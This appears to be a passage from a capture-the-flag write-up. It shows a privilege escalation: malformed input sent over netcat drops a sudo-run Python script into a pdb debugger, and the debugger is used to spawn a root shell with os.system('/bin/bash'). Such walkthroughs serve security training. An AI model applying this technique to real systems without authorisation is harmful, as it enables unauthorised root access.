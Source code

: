 ```console
user@forge:~$ sudo /usr/bin/python3 /opt/remote-manage.py 
Listening on localhost:59884
```

```console
user@forge:~$ nc localhost 59884
Enter the secret passsword: secretadminpassword
Welcome admin!

What do you wanna do: 
[1] View processes
[2] View free memory
[3] View listening sockets
[4] Quit
```
If we enter  some nonsense input in our netcat listener the pdb shell will open on in the session running the script:

```console
user@forge:~$ nc localhost 59884
Enter the secret passsword: secretadminpassword
Welcome admin!

What do you wanna do: 
[1] View processes
[2] View free memory
[3] View listening sockets
[4] Quit
shubiduah

```
```console
user@forge:~$ sudo /usr/bin/python3 /opt/remote-manage.py 
Listening on localhost:59884
invalid literal for int() with base 10: b'fagepn'
> /opt/remote-manage.py(27)<module>()
-> option = int(clientsock.recv(1024).strip())
(Pdb) import os
(Pdb) os.system("/bin/bash")
root@forge:/home/user# 
```
Rooted!